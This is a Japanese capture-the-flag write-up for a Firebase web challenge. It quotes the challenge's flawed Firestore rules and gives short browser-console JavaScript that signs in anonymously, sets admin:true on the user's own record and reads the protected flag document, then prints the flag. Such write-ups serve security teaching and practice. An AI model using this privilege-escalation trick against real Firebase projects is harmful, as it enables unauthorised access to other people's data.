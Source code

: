 # Problem on fire:Web:200pts
たいへん！作問作業が炎上しちゃったよ！みんなで力を合わせてなんとかしよう！  
[https://challenge-on-fire.web.app/](https://challenge-on-fire.web.app/)  
[challenge_on_fire.tar.gz](challenge_on_fire.tar.gz)  

# Solution
アクセスすると謎のサイトが動いていた。  
Welcome to Firebase Hosting  
[site.png](site/site.png)  
タイトルからもわかる通りFirebase系のWeb問題のようだ。  
権限周りの脆弱性であることが容易に想像がつく。  
配布されたファイルのrulesを見ると以下のようであった。  
```
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {
    match /users/{uid} {
      // 自分のユーザー情報を書き込めるのは自分のみ
      allow read, create: if request.auth.uid == uid && !request.resource.data.admin;
      // 一度作ったユーザー情報を編集できるのはadminだけ
      allow update: if request.resource.data.admin;
    }
    match /flags/flag {
      // flagを読めるのはadminだけ
      allow read: if get(/databases/$(database)/documents/users/$(request.auth.uid)).data.admin == true;
    }
  }
}
```
adminのみがフラグを読むことができ、自分のみが自分のユーザ情報を書き込める。  
adminになってしまえばよい。  
ページからパクって編集した以下のjsをブラウザのコンソールから実行する。  
```js
const auth = firebase.auth();
const {user} = await auth.signInAnonymously();
const uid = user.uid;
const db = firebase.firestore();
await db.collection('users').doc(uid).set({admin: true});
const flag = await db.collection('flags').doc('flag').get();
flag.get('value');
```
![flag.png](images/flag.png)  
flagが得られた。  

## TSGLIVE{git_fire_is_also_useful_when_the_project_is_on_fire}